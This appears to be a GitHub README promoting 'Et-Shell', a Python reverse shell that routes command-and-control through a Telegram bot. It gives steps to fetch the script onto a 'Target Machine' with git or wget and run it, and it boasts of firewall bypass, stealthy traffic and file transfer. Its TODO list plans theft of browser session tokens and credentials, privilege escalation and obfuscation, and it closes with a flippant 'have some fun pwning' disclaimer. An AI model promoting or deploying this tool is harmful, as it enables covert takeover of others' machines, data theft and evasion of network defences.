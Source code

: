 # ⚡ Et-Shell – The Easiest Reverse Shell You’ll Ever Use!

Forget complicated setups. **Et-sHell** gives you a **fully functional reverse shell** using **Telegram**—no need for a remote server, no open ports, no headaches. Just straight-up shell access, routed through Telegram’s servers.

## 🔥 Why etShell?

-   **Broke? No server?, no problem** – No need to set up a VPS, configure nginx rules or expose your IP.
-   **Firewall? Bypass it.** – No open ports, no NAT issues, just seamless communication.
-   **Command & Control via Telegram** – Send shell commands from your girlfriend's dorm room with your phone.
-   **Discreet & Stealthy** – Blends in like a ghost – Telegram traffic = Innocent AF!.
-   **File Transfers** – Upload and download files.
-   **Live Mode** – Watch command output in real-time.

## 🛠️ Setup in 60 Seconds

1.  **Create a Telegram bot** via [@BotFather](https://t.me/BotFather).
2.  **Clone this repo on your Target Machine/ wget [`etshell.py`](https://raw.githubusercontent.com/getmydropper/Et-Shell/refs/heads/main/etshell.py)** :
    
    ```
    git clone https://github.com/getmydropper/Et-Shell   
    ```
    
3.  **Install dependencies**:
    
    ```
    pip install telepot  
    ```
        
 4. **Paste your bot `TOKEN` obtained from  [@BotFather](https://t.me/BotFather) in `etshell.py`.**
    
5.  **Run it**:
    
    ```
    python etshell.py  
    ```
    
5.  **Start commanding your Target Machine via Telegram.**

## 🔜 TODO:

- [ ] Grab the Telegram Bot TOKEN from a remote source securely every time the program executes
- [ ] Implement local enumeration for privilege escalation
- [ ] Retrieve plaintext details and browser session tokens
- [ ] Apply obfuscation techniques


## ⚠️ Disclaimer

This tool is for **whatever purposes** and make sure your bot token stays safe. If you use it for anything shady, that's on you. Don’t be dumb.

Now go have some fun pwning!

[![Telegram](https://badgen.net/badge/icon/Don't%20be%20an%20skid!?icon=telegram&label=DM%20for%20Queries)](https://t.me://hello_elliot_bot)
----------

#### LICENSE
```
             DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.

```
